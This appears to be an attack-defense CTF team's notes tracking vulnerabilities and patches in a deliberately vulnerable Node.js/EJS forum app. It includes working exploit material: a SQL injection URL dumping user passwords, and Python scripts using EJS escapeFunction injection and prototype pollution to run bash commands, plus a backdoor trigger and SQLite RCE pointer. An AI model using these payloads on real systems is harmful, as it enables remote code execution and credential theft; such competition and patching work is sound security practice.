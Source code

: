 # Current

> [x]: patched in `020411.patch`
>
> [y]: patched in `020412.patch`

## password exposure (views/profile.ejs) [y]

## change someone else's password (routes/users.js) [x]

## register role control (routes/users.js) [x]

## missing return in `adminRequired` (utils.js)

## path traversal LFR (middlewares/static.js) [x]

## session direct modification (routes/users.js) [x]

with `/update`

## session forgery 1 (middlewares/session.js) [x]

`secretkey` != `secretKey`

## session forgery 2 (middlewares/session.js)

AES-GCM no `final()`, same as AES-CTR flipping

> same idea as https://blog.maple3142.net/2022/07/24/dicectf-at-hope-writeups/#payment-pal

## file upload path traversal + SSTI (routes/users.js)

## argument injection (admin only) (routes/admin.js)

## XSS (no admin bot yet) (views/profile.ejs)

profile description direct XSS using markdown

profile image url `src` is not quoted

```ejs
<img id="profilePicture" src=<%= page_user.profile_picture_url %> alt="Profile Picture for <%= page_user.username %>" style="max-width: 300px;" />
```

## sql injection (routes/boards.js)

```
GET /board/-1%20union%20select%20'-1%20union%20select%20username,password%20from%20users',%200/category
```

## ejs render injection (routes/boards.js)

https://github.com/mde/ejs/issues/735

```python
import httpx

client = httpx.Client(base_url="http://localhost:8763")
client.post("/login", data={"username": "user", "password": "user"})

r = client.post(
    "/board/1/new-thread",
    params={"preview": 1},
    json={
        "settings": {
            "view options": {
                "client": True,
                "escapeFunction": """1;return global.process.binding('spawn_sync').spawn(
                    {
                        file:'/bin/bash',
                        args:['bash','-c','cat /flag'],
                        stdio: [
                            {type:'pipe',readable:!0,writable:!1},
                            {type:'pipe',readable:!1,writable:!0},
                            {type:'pipe',readable:!1,writable:!0}
                        ]
                }).output[1].toString()""",
            }
        }
    },
)
print(r.text)
```

## supply chain attack (package.json)

```bash
curl 'http://localhost:8763' -H 'User-Agent:Mozilla/48.763 id'
```

## prototype pollution (utils.js)

same ejs gadget can be used:

```python
import httpx

client = httpx.Client(base_url="http://localhost:8763")
client.post("/login", data={"username": "user", "password": "user"})

client.post(
    "/update",
    json={
        "__proto__": {
            "client": True,
            "escapeFunction": """1;return global.process.binding('spawn_sync').spawn(
                    {
                        file:'/bin/bash',
                        args:['bash','-c','cat /flag'],
                        stdio: [
                            {type:'pipe',readable:!0,writable:!1},
                            {type:'pipe',readable:!1,writable:!0},
                            {type:'pipe',readable:!1,writable:!0}
                        ]
                }).output[1].toString()""",
        }
    },
)

r = client.get("/")
print(r.text)
```

or there are probably more gadgets

## path traversal (two ways) + yaml deserialization (middlewares/i18n.js)

profile file upload

## `coerce` deserialization (utils.js) [y]

`js:eval:...`

## admin database management (routes/admin.js)

use sqltite to write file, then combine it with ejs or something else

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#remote-command-execution-using-sqlite-command---attach-database

# TODO

## url file upload LFR (fetch?)

## import() lfi

## race condition

## and more...
